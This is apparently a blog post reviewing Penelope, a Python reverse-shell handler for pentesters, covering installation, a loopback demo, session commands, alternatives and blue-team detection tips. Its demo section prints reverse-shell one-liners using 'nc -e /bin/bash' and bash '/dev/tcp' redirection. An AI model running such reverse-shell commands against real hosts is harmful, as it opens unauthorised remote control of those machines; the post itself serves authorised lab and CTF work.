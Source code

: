 ```yaml
---
layout: post
title: "Penelope"
subtitle: "A modern reverse-shell handler for pentesters"
date: 2025-09-26 10:00:00
background: ""
tags: [posts]
category: tools
---
```


**Penelope** is a compact, Python-based reverse-shell *handler* / session manager designed to replace ad-hoc `nc` listeners. It focuses on PTY upgrades, session management, logging and convenient file transfer utilities - without heavy dependencies. Use it to manage **lab** shells; never use tools like this outside of authorised tests.
![](/img/blog_img/Penelope_img/img1.png)

**GitHub:** [https://github.com/brightio/penelope](https://github.com/brightio/penelope)

---

## Why this matters
If you've ever landed a reverse shell only to wrestle with broken arrow keys, no job control, or a brittle single connection, you know the friction. Penelope automates the boring parts (PTY upgrade, resize, basic file upload/download, session listing) so you can focus on enumeration and escalation. Many CTF and pentest workflows gain from this ergonomics boost.

---

### Quick facts
- **Type:** Reverse-shell handler / session manager (single Python script).  
- **Language:** Python (requires Python 3.6+).  
- **Install:** drop the script on a Unix host or install via `pipx` from the GitHub repo.  
- **Platforms:** Linux, macOS (Unix-like systems).

---

## What Penelope gives you (features you’ll actually use)
- **Session manager:** list active sessions, interact / background, spawn multiple listeners.  
- **Automatic TTY/PTY upgrades:** attempts to turn a raw socket into a usable terminal (resizes, `pty.spawn` style behavior).  
- **File transfer & serving:** upload or download files/folders, and serve files over HTTP from your machine (`-s` switch).  
- **Activity logging:** record interactions for later review (handy for writeups and audits).  
- **Extras / Modules:** integrations and helper modules (e.g., for use with Metasploit or custom scripts).


---

## Installing Penelope (quick)
Minimal, dependency-free approach (runs the raw script):

```bash
# from your attack/lab machine (review the file before running)
wget https://raw.githubusercontent.com/brightio/penelope/refs/heads/main/penelope.py -O ~/bin/penelope.py
chmod +x ~/bin/penelope.py
# (optional) add a symlink to a directory in your PATH
ln -s ~/bin/penelope.py ~/.local/bin/penelope
```

Or install via `pipx`:
```bash
pipx install git+https://github.com/brightio/penelope
```
Always review the script before running. The canonical repo and README are the source of truth.

---

## Conceptual workflow
Below is a **safe, local** demonstration you can run on your lab VM / personal machine to see how a listener + client behave. This uses loopback (127.0.0.1) so nothing touches the internet.

1. Open a terminal and start Penelope on port `4444` (listen on localhost):
```bash
penelope -i 127.0.0.1 -p 4444
```

2. In another terminal on the same machine, create a simple client that connects back. If your netcat supports `-e`, you can use:
```bash
nc 127.0.0.1 4444 -e /bin/bash
```
If `nc -e` is unavailable on your system, use a safe shell loopback variant on a disposable lab VM (avoid using these commands on production systems):
```bash
# safe local bash connect (lab-only)
bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
```

3. Switch to the Penelope terminal: you should see a new session listed. Use the session manager commands to `interact <id>`, background the session, or use file-transfer helpers. Test basic terminal behavior (arrow keys, history, simple editors) inside the managed session.

> Reminder: Do **not** run these commands against external or production hosts. Keep tests confined to isolated lab networks.

---

### Example usage & common commands
Penelope's CLI and exact flags may evolve; this section shows the typical workflows you will encounter.

```bash
# Start Penelope listening on all interfaces, port 4444, and enable logging
penelope -p 4444 --log penelope.log

# Start listening on a specific IP and port
penelope -i 10.10.14.10 -p 5555

# Interact with an existing session from the session manager
# (typical pseudo-commands inside the manager)
list           # show active sessions
interact 1     # attach to session ID 1
background 1   # background session ID 1
download 1 /tmp/loot.zip  # pull /tmp/loot.zip from session 1
upload 1 localfile /tmp/remote_name  # push localfile -> remote
```

Check `penelope --help` or the project README for the most current flags and usage notes.

---

## Pros / Why you might adopt Penelope
- **Ergonomics:** session manager + file transfer saves time during writeups and CTFs.  
- **Lightweight:** pure-Python, minimal external deps.  
- **Designed for testers:** features map to real RCE/revshell pain points (stability, TTY upgrades).

## Cons / Caveats
- **Not a silver bullet:** complex post-exploitation workflows still require other tools (Metasploit, pwncat, socat, manual scripting).  
- **Potential fingerprinting:** custom handlers can be detectable by defenders if used against real targets - only use in authorised tests.  
- **Maintenance / trust:** always audit any tool you run during engagements (it runs with whatever privileges your user has).

### Alternatives & when to use each
- **Netcat (nc):** ubiquitous; quick but fragile and lacks session management. Use only for quick ad-hoc needs.  
- **pwncat / pwncat-revshell:** more featureful; focused on interactive exploitation workflows. Choose when you need advanced post-exploitation features.  
- **Socat:** powerful for port forwarding and advanced socket handling; more complex syntax.  
- **Metasploit handler:** heavyweight, full post-exploitation ecosystem; not ideal for small CTF tasks.

---

## Defensive / blue-team perspective
If you’re writing this as a white-hat post, include detection and mitigation notes:
- **Network monitoring:** look for unusual long-lived outbound TCP sessions, especially to atypical ports or after suspicious HTTP requests.  
- **Egress filtering:** block unnecessary outbound ports and limit allowed external services from high-risk hosts.  
- **Endpoint monitoring:** track parent/child processes that spawn network sockets or suspicious Python interpreters invoked from web apps or services.  
- **Hunting signatures:** session managers often perform predictable sequences (pty upgrades, specific file transfer handshakes) - create detections for repeated patterns.

Always correlate telemetry before taking automated actions.
